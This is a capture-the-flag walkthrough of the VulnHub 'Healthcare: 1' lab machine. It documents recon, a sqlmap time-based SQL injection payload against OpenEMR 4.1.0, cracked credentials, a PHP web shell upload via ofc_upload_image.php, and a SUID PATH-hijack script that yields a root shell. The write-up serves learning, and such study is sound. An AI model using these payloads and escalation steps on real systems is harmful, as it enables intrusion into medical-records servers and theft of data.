


# Healthcare: 1 — VulnHub

## 1. Identification

| Field            | Value                                              |
|------------------|----------------------------------------------------|
| Machine name     | Healthcare: 1                                      |
| Platform         | VulnHub                                            |
| Difficulty       | Medium                                             |
| Target IP (lab)  | 10.0.0.26                                          |
| OS               | PCLinuxOS 2011 (Apache 2.2.17, PHP 5.3.3)          |
| Target app       | OpenEMR v4.1.0                                     |
| Goal             | Capture `user.txt` and `root.txt`                  |

Chain in one line: recon → non-obvious OpenEMR (deduced from the CTF name) → SQLi in `validateUser.php` → credential cracking → upload via `ofc_upload_image.php` → `www-data` web shell → SUID `/usr/bin/healthcheck` + PATH hijack → root.

## 2. Initial reconnaissance

```bash
nmap -sV -p- 10.0.0.26
```

Preserved result:

```
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
21/tcp open ftp      ProFTPD 1.3.3d
80/tcp open http     Apache httpd 2.2.17 ((PCLinuxOS 2011/PREFORK-1pclos2011))
Service Info: OS: Unix
Nmap done: 1 IP address (1 host up) scanned in 230.02 seconds
```

Quick server check:

```bash
curl -sv http://10.0.0.26/ 2>&1 | grep -E "Content-Type|X-Powered|HTTP/"
# > GET / HTTP/1.1
# < HTTP/1.1 200 OK
# < Content-Type: text/html
```

Figure 1 — `http://10.0.0.26/` shows a decorative "Coming Soon 2" page; nothing obvious in the front.


## 3. Enumeration

### 3.1 feroxbuster + robots.txt

```bash
feroxbuster -u http://10.0.0.26/ \
  -w /usr/share/seclists/Discovery/Web-Content/big.txt -d 4
```

Most relevant:

```
200 /
200 /index
200 /robots.txt
200 /favicon.ico
301 /images → /images/
301 /css    → /css/
301 /gitweb → /gitweb/
301 /cgi-bin/gitweb → /cgi-bin/gitweb/
403 /phpMyAdmin
403 /images (directory listing later blocked)
```

`robots.txt`:

```
User-agent: *
Disallow: /manual/
Disallow: /manual-2.2/
Disallow: /addon-modules/
Disallow: /doc/
Disallow: /images/
Disallow: /all_our_e-mail_addresses
Disallow: /admin/
user-agent: stress-agent
Disallow: /
```

`/images/` returns Access Forbidden! (403) — only Apache PCLinuxOS detail in the header.

### 3.2 Deducing the application path

Standard enumeration didn't reveal a useful application. Reasoning applied and preserved in the files:

> "The CTF is called HealthCare; Apache + phpMyAdmin = web + DB; HealthCare + DB → likely an electronic medical-records system; OpenEMR is the open-source most common in CTFs of this theme; maybe it's in a subdir."

```bash
for path in openemr emr health ehr records patient medical healthcare; do
  code=$(curl -s -o /dev/null -w "%{http_code}" http://10.0.0.26/$path/)
  echo "$path -> $code"
done

# openemr -> 200   ← bingo
# emr -> 404
# health -> 404
# ...
```

Figure 2 — `http://10.0.0.26/openemr/interface/login/login_frame.php?site=default` — OpenEMR v4.1.0 confirmed.



## 4. Exploitation

### 4.1 SQL Injection in validateUser.php

OpenEMR ≤ 4.1.0 has a known injection in `interface/login/validateUser.php` on the `u` parameter.

```bash
sqlmap -u "http://10.0.0.26/openemr/interface/login/validateUser.php?u=admin" \
  --dbms=mysql -D openemr -T users -C username,password \
  --dump --batch --technique=T --level=3
```

Preserved output (parameters and payload):

```
Parameter: u (GET)
   Type: time-based blind
   Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
   Payload: u=admin' AND (SELECT 5132 FROM (SELECT(SLEEP(5)))HAfb)-- mWXH

web server operating system: Linux
web application technology: PHP 5.3.3, Apache 2.2.17
back-end DBMS: MySQL >= 5.0.12
```

SHA1 cracking with a dictionary:

```
+----------+----------------------------------------------------+
| username | password                                           |
+----------+----------------------------------------------------+
| admin    | 3863efef9ee2bfbc51ecdca359c6302bed1389e8 (ackbar) |
| medical | ab24aed5a7c4ad45615cd7e0da816eea39e4895d (medical) |
+----------+----------------------------------------------------+
```

Credentials obtained: `admin:ackbar` and `medical:medical`.

Figure 3 — OpenEMR administrative panel after logging in with `admin:ackbar` ("Administrator Administrator" calendar view).



### 4.2 Arbitrary upload via ofc_upload_image.php

OpenEMR 4.x ships the OpenFlashChart library with a vulnerable `ofc_upload_image.php` — it allows writing arbitrary files into `sites/default/images`:

```
http://10.0.0.26/openemr/library/openflashchart/php-ofc-library/ofc_upload_image.php
```

PHP webshell uploaded. The file lands at `/var/www/html/openemr/sites/default/images/`.

```bash
curl "http://10.0.0.26/openemr/sites/default/images/shell.php?cmd=id"
# uid=33(www-data) gid=33(www-data)
```

Reverse shell → `bash-4.1$` as `www-data`.

## 5. Post-exploitation

```bash
bash-4.1$ cat user.txt
d41d8cd98f00b204e9800998ecf8427e
```

> Note: the content shown in `user.txt` is exactly the MD5 of an empty file, suggesting a placeholder flag. The file may actually live elsewhere — check `/home/` / `/root/`.

SUID enumeration:

```bash
bash-4.1$ find / -perm -4000 -type f 2>/dev/null
/usr/libexec/pt_chown
/usr/lib/ssh/ssh-keysign
/usr/lib/polkit-resolve-exe-helper
/usr/lib/polkit-1/polkit-agent-helper-1
/usr/lib/chromium-browser/chrome-sandbox
/usr/lib/polkit-grant-helper-pam
/usr/lib/polkit-set-default-helper
/usr/sbin/fileshareset
/usr/sbin/traceroute6
/usr/sbin/usernetctl
/usr/sbin/userhelper
/usr/bin/crontab
/usr/bin/at
/usr/bin/pumount
/usr/bin/batch
/usr/bin/expiry
/usr/bin/newgrp
/usr/bin/pkexec
/usr/bin/wvdial
/usr/bin/pmount
/usr/bin/sperl5.10.1
/usr/bin/gpgsm
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/su
/usr/bin/passwd
/usr/bin/gpg
/usr/bin/healthcheck       ← suspicious (custom name)
/usr/bin/Xwrapper
/usr/bin/ping6
/usr/bin/chsh
/lib/dbus-1/dbus-daemon-launch-helper
/sbin/pam_timestamp_check
/bin/ping
/bin/fusermount
/bin/su
/bin/mount
/bin/umount
```

Static analysis of `healthcheck`:

```bash
bash-4.1$ strings /usr/bin/healthcheck
...
setuid
system
setgid
__libc_start_main
GLIBC_2.0
PTRhp
[^_]
clear ; echo 'System Health Check' ; echo '' ; echo 'Scanning System' ; sleep 2 ; ifconfig ; fdisk -l ; du -h
```

→ SUID root binary that calls `ifconfig`, `fdisk`, and `du` by relative name via `system()`. Classic PATH-hijack vector.

## 6. Privilege escalation

PATH hijack on `ifconfig`:

```bash
cd /tmp
echo '#!/bin/sh'                          > /tmp/ifconfig
echo 'touch /tmp/PWNED'                  >> /tmp/ifconfig
echo 'cp /bin/bash /tmp/rootbash'        >> /tmp/ifconfig
echo 'chmod 4755 /tmp/rootbash'          >> /tmp/ifconfig
chmod 777 /tmp/ifconfig

# Put /tmp first in PATH before calling the SUID
export PATH=/tmp:$PATH

/usr/bin/healthcheck
# TERM environment variable not set.
# System Health Check
# Scanning System
# ...
```

Verification:

```bash
bash-4.1$ ls -la /tmp/rootbash
-rwsr-xr-x 1 root root 864208 May     9 14:35 /tmp/rootbash

bash-4.1$ /tmp/rootbash -p
rootbash-4.1# id
uid=33(www-data) gid=33(www-data) euid=0(root) ...
```

The `rootbash` shell keeps EUID=0 thanks to the SUID bit copied from `/bin/bash` + the `-p` flag.

## 7. Flags

```bash
rootbash-4.1# cd /root
rootbash-4.1# ls
Desktop Documents drakx healthcheck         healthcheck.c      root.txt   sudo.rpm   tmp
rootbash-4.1# cat root.txt
# (content captured in session)
```

| Flag     | Location                                     | Content in local files                                                |
|----------|----------------------------------------------|-----------------------------------------------------------------------|
| user.txt | `/var/www/html/openemr/...` (or home)        | `d41d8cd98f00b204e9800998ecf8427e` (MD5 of empty file — likely placeholder) |
| root.txt | `/root/root.txt`                             | Read after escalation — final content only visible in the original session |

Bonus found in `/root/`: `healthcheck.c` (source code) and `sudo.rpm` (package present as a CTF design hint).

## 8. Attack summary

1. Nmap → 21/80 (ProFTPD + Apache PCLinuxOS).
2. "Coming Soon 2" front; no obvious app.
3. `feroxbuster` + `robots.txt` analysis → nothing directly exploitable.
4. Deduce from the CTF name → look for `openemr` → 200 at `/openemr/`.
5. Identification of OpenEMR v4.1.0 in `login_frame.php`.
6. `sqlmap` on `validateUser.php?u=admin` → time-based blind → crack `admin:ackbar`, `medical:medical`.
7. Admin panel login.
8. PHP upload via `library/openflashchart/php-ofc-library/ofc_upload_image.php` → `www-data` shell.
9. `find / -perm -4000` reveals SUID `/usr/bin/healthcheck`.
10. `strings` shows `ifconfig` / `fdisk` / `du` by relative name → PATH hijack.
11. Fake `ifconfig` in `/tmp` copies `/bin/bash` to `/tmp/rootbash` with SUID.
12. `/tmp/rootbash -p` → root.
13. Read `/root/root.txt`.

## 9. Technical lessons

- Theme-driven reconnaissance when generic enumeration fails — in this case, deducing `openemr` from "Healthcare".
- OpenEMR ≤ 4.1.0 has known SQLi (CVE-2013-4711 and similar) in `validateUser.php`.
- OpenFlashChart `ofc_upload_image.php` is a classic vulnerability in older PHP apps.
- Unsalted SHA1 hashes + dictionary → immediate cracking.
- SUID + `system()` with a relative name is the recipe for PATH hijack (mirrored in the Darkhole and Dr4g0n b4ll boxes).


